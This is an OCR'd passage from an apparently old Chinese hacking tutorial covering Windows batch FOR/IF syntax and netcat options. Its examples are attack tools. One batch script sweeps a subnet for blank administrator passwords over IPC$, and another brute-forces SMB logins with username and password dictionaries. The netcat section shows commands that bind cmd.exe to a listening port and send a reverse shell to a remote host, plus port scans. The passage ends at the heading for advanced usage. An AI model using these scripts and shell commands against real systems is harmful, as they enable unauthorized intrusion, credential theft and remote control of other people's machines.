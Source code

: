  - ftp ftp连接上某服务器（同win2K）
 - 批处理命令与变量
 - 1：for命令及变量 基本格式
 - FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
 - 批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3
 - (set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }
 - command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：&amp; 来隔开
 - command_parameters：为特定命令指定参数或命令行开关
 - IN (set)：指在(set)中取值；DO command ：指执行command
 - 参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
 - 用法举例：
 - @echo off
 - echo 用法格式：test.bat *.*.* &gt; test.txt
 - for /L %%G in (1 1 254) do echo %1.%%G &gt;&gt;test.txt &amp; net use \%1.%%G /user:administrator | find "命令成功完成" &gt;&gt;test.txt
 - 存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。
 - /L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；&amp; 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
 - @echo off
 - echo 用法格式：ok.bat ip
 - FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
 - 存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。
 - 七：
 - 2：if命令及变量 基本格式
 - IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
 - 例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。
 - 0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
 - IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
 - 例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
 - IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
 - 例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。
 - IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用&lt; &gt;括起来，因为del命令要单独一行时才能执行，用上&lt; &gt;后就等于是单独一行了；例如：“if exist test.txt. &lt;del test.txt.&gt; else echo test.txt.missing ”，注意命令中的“.”
 - 系统外部命令
 - 注：系统外部命令(均需下载相关工具)
 - 瑞士军刀：nc.exe
 - 参数说明：
 - -h 查看帮助信息
 - -d 后台模式
 - -e prog程序重定向，一但连接就执行[危险]
 - -i secs延时的间隔
 - -l 监听模式，用于入站连接
 - -L 监听模式，连接天闭后仍然继续监听，直到CTR+C
 - -n IP地址，不能用域名
 - -o film记录16进制的传输
 - -p[空格]端口 本地端口号
 - -r 随机本地及远程端口
 - -t 使用Telnet交互方式
 - -u UDP模式
 - -v 详细输出，用-vv将更详细
 - -w数字 timeout延时间隔
 - -z 将输入，输出关掉（用于扫锚时）
 - 基本用法：
 - nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
 - nc -l -p 80 开启本机的TCP 80端口并监听
 - nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
 - nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
 - nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
 - 高级用法：